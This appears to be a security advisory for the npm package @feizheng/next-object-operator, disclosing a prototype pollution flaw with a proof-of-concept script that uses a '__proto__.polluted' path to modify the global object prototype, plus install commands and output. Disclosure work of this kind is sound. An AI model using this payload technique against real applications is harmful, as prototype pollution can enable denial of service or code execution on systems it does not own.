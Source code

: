# Description

`@feizheng/next-object-operator` is vulnerable to `Prototype Pollution`.
This package fails to restrict access to prototypes of objects, allowing for modification of prototype behavior using a `proto` payload, which may result in Sensitive Information Disclosure/Denial of Service(DoS)/Remote Code Execution.


# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var nextObjectOperator = require("@feizheng/next-object-operator")

const data = {};
const operator = new nextObjectOperator(data);

console.log("Before : " + {}.polluted);
operator.set('__proto__.polluted', 'Yes! Its Polluted')
console.log("After : " + {}.polluted);
```
2. Execute the following commands in another terminal:

```
npm i @feizheng/next-object-operator # Install affected module
node poc.js #  Run the PoC
```
3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
